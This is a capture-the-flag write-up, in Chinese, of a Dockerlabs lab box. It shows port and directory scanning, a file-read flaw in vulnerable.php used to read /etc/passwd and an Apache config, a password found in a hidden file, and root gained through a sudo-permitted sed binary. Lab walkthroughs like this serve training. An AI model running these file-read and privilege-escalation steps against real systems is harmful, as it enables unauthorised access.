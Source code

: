 ```yaml
---
title: "Dockerlabs-Sites"
date: 2025-02-28
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/sites  
❯ nmap 172.17.0.2 -sV  -A -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-28 20:05 CST
Nmap scan report for 172.17.0.2
Host is up (0.000077s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 cb:8f:50:db:6d:d8:d4:ac:bf:54:b0:62:12:7c:f0:01 (ECDSA)
|_  256 ca:6b:c7:0c:2a:d6:0e:3e:ff:c4:6e:61:ac:35:db:01 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Configuraci\xC3\xB3n de Apache y Seguridad en Sitios Web
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.08 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.63 seconds
```

## Gobuster

```
[root@kali] /home/kali/sites  
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php               ⏎
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/vulnerable.php       (Status: 200) [Size: 37]
/server-status        (Status: 403) [Size: 275]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

## ReadAnyFiles

![](./images/image-232.png)

需要提供一个**page**参数或者**username**参数，这里尝试读取**/etc/passwd**

![](./images/image-233.png)

看到存在**chocolate**用户，无法直接读取**ssh**密钥

由于在页面中发现了这个conf文件

![](./images/image-234.png)

尝试读取

```
[root@kali] /home/kali/sites  
❯ curl --path-as-is 'http://172.17.0.2/vulnerable.php?page=/etc/apache2/sites-available/sitio.conf' 
<VirtualHost *:80>
    ServerAdmin webmaster@tusitio.com
    DocumentRoot /var/www/html
    ServerName sitio.dl
    ServerAlias www.sitio.dl

    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    # Bloquear acceso al archivo archivitotraviesito (cuidadito cuidadin con este regalin)
    # <Files "archivitotraviesito">
    #   Require all denied
    # </Files>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

哎，看不懂，拿给翻译

注释说明要阻止对名为 `archivitotraviesito` 的文件的访问。相关配置被注释掉了，未生效。

尝试访问 **http://172.17.0.2/archivitotraviesito**

![](./images/image-235.png)

得到登录密码

![](./images/image-236.png)

## Root

查看特殊权限命令

```
chocolate@805cedff7533:~$ sudo -l
Matching Defaults entries for chocolate on 805cedff7533:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on 805cedff7533:
    (ALL) NOPASSWD: /usr/bin/sed
```

在**GTFObins**中有记录，可以直接用

- [sed | GTFOBins](https://gtfobins.github.io/gtfobins/sed/)

![](./images/image-237.png)

## Summary

感觉这个不像是一个**Medium**的靶机。。。

`User`：任意文件读取，可以看到apache的配置文件的注释中有一个隐藏的路由，访问得到ssh密码。

`Root`：查**GTFO**直接提权，没啥好说的。
